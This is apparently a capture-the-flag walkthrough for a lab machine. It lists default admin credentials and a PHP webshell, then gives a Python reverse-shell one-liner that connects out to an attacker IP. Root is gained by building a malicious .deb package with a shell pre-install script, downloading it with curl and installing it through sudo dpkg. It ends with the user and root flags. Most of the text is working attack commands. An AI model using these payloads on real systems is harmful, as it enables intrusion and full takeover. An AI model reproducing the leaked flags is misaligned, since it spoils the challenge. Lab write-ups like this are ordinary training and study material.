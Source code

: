
IP=10.0.160.145

# Port
**port- 80**


path_to_check
'/auth/check'
/install
/finder
/assets


*Credentials*
~~~
username- admin
password- admin
~~~

This is the best php webshell file that helped me 
*phpbash.php*

#search_query
```
"github" "phpbash.php"
```

**My reverse shell payload in python**
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.43.230",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

After getting on the system, 
You would find the user you are logged on as, has a sudo privilege on a dpkg file 

![[Pasted image 20240921232013.png]]

With a little search on gtfobins, a way around this escalation 

![[Pasted image 20240921232226.png]]

Okay, we have to use the fpm(fotran package manager) to create a deb file on our host system and transfer it to the target machine. Before that we can install fpm on our host with the command below;

```
sudo gem install fpm
```

Now, copy and paste the commands from gtfobins;

```
TF=$(mktemp -d)
echo 'exec /bin/sh' > $TF/x.sh
fpm -n x -s dir -t deb -a all --before-install $TF/x.sh $TF
```


Open a server (python i prefer) in the directory you create the deb file in

![[Pasted image 20240921232946.png]]

Now on the target machine, type;
```
curl http://<your-ip>:port/x_1.0_all.deb -o x_1.0_all.deb

sudo /bin/dpkg -i x_1.0_all.deb
```

Congratulation, you are now root :)
![[Pasted image 20240921233457.png]]



Thanks for reading although it's dump and hard to read. 

# Flags
user - ETSCTF_97e9e90a6617e514b7de4ef05c1cb03a
root - ETSCTF_53c8a434425067cb3ad91ea0f972b92e